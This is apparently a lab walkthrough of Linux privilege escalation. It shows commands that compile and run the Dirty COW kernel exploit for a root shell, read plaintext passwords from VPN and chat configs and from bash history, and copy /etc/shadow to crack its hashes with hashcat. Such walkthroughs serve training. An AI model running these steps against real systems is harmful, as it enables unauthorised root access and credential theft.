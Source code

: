 # Linux Privilege escalation arena

## Privilege Escalation - Kernel Exploits

First we run Linux exploit suggester as below

```bash
$/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh
```

We can see that this kernel is vulnerable to [dirty cow](https://github.com/firefart/dirtycow.git) exploit now we can use this to exploit the system.

```bash
$gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w
$./c0w
```

It will take some time to build now in command prompt type **passwd** and voila we get the root shell. After expoit if you want to make the system normal you need to copy the backup passwd binary to /usr/bin directory.

```bash
\#cp /tmp/bak /usr/bin/passwd
```

## Privilege Escalation - Stored Passwords

There are newmerous places where passwords can be stored as plain text let us explore

```bash
$cat /home/user/myvpn.ovpn #We have a pointer to the config file from where the system reads the password
$cat /etc/openvpn/auth.txt #We have got the password
$cat /home/user/.irssi/config | grep -i passw
```

Sometimes we may get passwords from history files

```bash
$cat ~/.bash_history | grep -i passw
```

## Privilege Escalation - weak file permission

If we run ```ls -la /etc/shadow``` we can see that we have read permission to the shadow file so we can try to break a system user password by unshadowing the passwd file.

```bash
$cat /etc/passwd #Save the file with a suitable name in your atack box
$cat /etc/shadow #Save this one with a different name in your atack box
 # Then run the below command to unshadow it
 $unshadow <passwd file> <shadow file> > unshadowed.txt
 $hashcat -m 1800 unshadowed.txt /usr/share/wordlists/rockyou.txt #passwords are saved as SHA512 in linux that's why we used 1800 as hash mode.
 ```
